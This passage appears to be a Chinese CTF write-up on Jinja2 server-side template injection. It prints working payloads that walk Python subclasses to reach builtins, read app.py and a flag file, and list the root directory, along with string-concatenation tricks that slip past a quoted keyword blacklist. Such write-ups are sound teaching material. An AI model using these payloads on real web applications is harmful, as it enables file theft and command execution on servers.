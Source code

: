 ```
    - `.eval("...")` 评估字符串作为Python表达式。
    - `"__import__('os').popen('ls /').read()"`: 这段代码导入`os`模块并运行命令`ls /`，即列出根目录下的文件和文件夹。

```



加密再解密，返回no,no,no，说明有关键字符被过滤

![image-20240528212916356](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282129430.png)

我们需要查看源码app.py（用open）

```
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}{% endif %}{% endfor %}
```

![image-20240528213031281](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282130385.png)

整理一下得

```
 def waf(str):
 black_list = ["flag","os","system","popen","import","eval","chr","request",
 "subprocess","commands","socket","hex","base64","*","?"]
 for x in black_list :
 if x in str.lower() :
 return 1
```

过滤了很多东西

我们使用

1.**字符串拼接进行绕过**

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
```

加密，解密后得到根目录

![image-20240528213229370](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282132444.png)

发现flag所在的目录，我们读取

```
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}
```

加密解密，得到flag

**2.倒转输出**

在python中，使用[::-1]可以倒序输出全部，这样就可以绕过过滤
